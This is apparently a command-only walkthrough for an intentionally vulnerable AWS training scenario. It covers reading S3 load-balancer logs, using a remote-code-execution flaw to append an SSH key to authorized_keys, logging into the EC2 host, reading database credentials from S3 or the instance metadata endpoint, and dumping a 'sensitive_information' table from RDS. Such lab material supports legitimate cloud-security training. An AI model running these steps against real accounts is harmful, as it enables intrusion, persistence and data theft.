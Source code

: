 `aws configure --profile Scenario5_1_user`

`aws s3 ls --profile Scenario5_1_user`

`aws s3 ls s3://<bucket> --recursive --profile Scenario5_1_user`

`aws s3 cp s3://<bucket>/sc5-lb-logs/AWSLogs/793950739751/elasticloadbalancing/eu-central-1/2019/06/19/555555555555_elasticloadbalancing_eu-central-1_app.sc5-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Scenario5_1_user`

`cat 555555555555_......_.log`

`ssh-keygen -t ed25519` (An ed25519 key pair is necessary here because using an
RSA public key is too long and gets truncated in the RCE)

`ssh-keygen -t ed25519` (An ed25519 key pair may be necessary here because using
an RSA public key can get truncated in the RCE)

`echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys`

`curl ifconfig.me`

`ssh -i private_key ubuntu@public.ip.of.ec2`

# BRANCH A:

`sudo apt-get install awscli`

`aws s3 ls`

`aws s3 ls s3://<bucket> --recursive`

`aws s3 cp s3://<bucket>/db.txt .`

`cat db.txt`

`aws rds describe-db-instances --region eu-central-1`

`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`

`\dt`

`select * from sensitive_information;`

# BRANCH B:

`curl http://169.254.169.254/latest/user-data`
`psql postgresql://<db_user>:<db_password>@<rds-instance>:5432/<db_name>`